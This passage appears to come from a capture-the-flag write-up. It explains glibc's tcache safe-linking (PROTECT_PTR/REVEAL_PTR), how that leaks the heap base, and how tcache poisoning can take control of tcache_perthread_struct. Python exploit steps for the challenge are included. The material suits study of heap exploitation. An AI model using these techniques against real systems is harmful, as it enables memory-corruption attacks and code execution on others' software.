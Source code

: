 ```c
{
  tcache_entry *e = tcache->entries[tc_idx];
  if (__glibc_unlikely (!aligned_OK (e)))
    malloc_printerr ("malloc(): unaligned tcache chunk detected");
  tcache->entries[tc_idx] = REVEAL_PTR (e->next);
  --(tcache->counts[tc_idx]);
  e->key = 0;
  return (void *) e;
}
```

Compare with [glibc-2.31's malloc](https://elixir.bootlin.com/glibc/glibc-2.31/source/malloc/malloc.c#L2918), we notice that tcache chunk's fd is encrypted and decrypted with `PROTECT_PTR()` and `REVEAL_PTR()`

```c:malloc.c
#define PROTECT_PTR(pos, ptr) \
  ((__typeof (ptr)) ((((size_t) pos) >> 12) ^ ((size_t) ptr)))
#define REVEAL_PTR(ptr)  PROTECT_PTR (&ptr, ptr)
```

For example:



Instead of storing `tcache->entries[tc_idx]`, `tcache_put()` store 

```
(&e->next>>12)^(tcache->entries[tc_idx])
```

`&e->next>>12` is basically heap base, and `tcache->entries[tc_idx]` is equal to zero when the bin is empty (the first time a chunk is inserted into that bin).

So the expression is equal to `heap_base>>12`.

## Leak libc base and control tcache_perthread_struct

Now we have heap address.

> My first attempt during ctf is trying to insert a big chunk to unsorted bin and leak libc base. But even when I do the former, it used up 9 slot of notes and I couldn't perform another tcache poisoning to point to the big chunk and leak libc base. 

After reading nyancat's writeup, I notice the existence of `tcache_perthread_struct` which is the first chunk to be allocated on heap. If we could control the tcache struct, we could perform a lot of magic.

First prepare tcache poisoning for 2 bins to allocate at `tcache_perthread_struct`. Note that we overwrite fd with `PROTECT_PTR(tcache_perthead_struct)` instead of the original pointer. 

```python
# tcache poisoning to alloc 2 chunks at tcache_perthead_struct
edit(0, 0x60, p64(0)*2)
edit(0, 0)
edit(0, 0x60, p64(protect(heap_base+0x10)))

edit(2, 0x70, p64(0)*2)
edit(2, 0)
edit(2, 0x70, p64(0)*2)
edit(2, 0)
edit(2, 0x70, p64(protect(heap_base+0x10)))
```
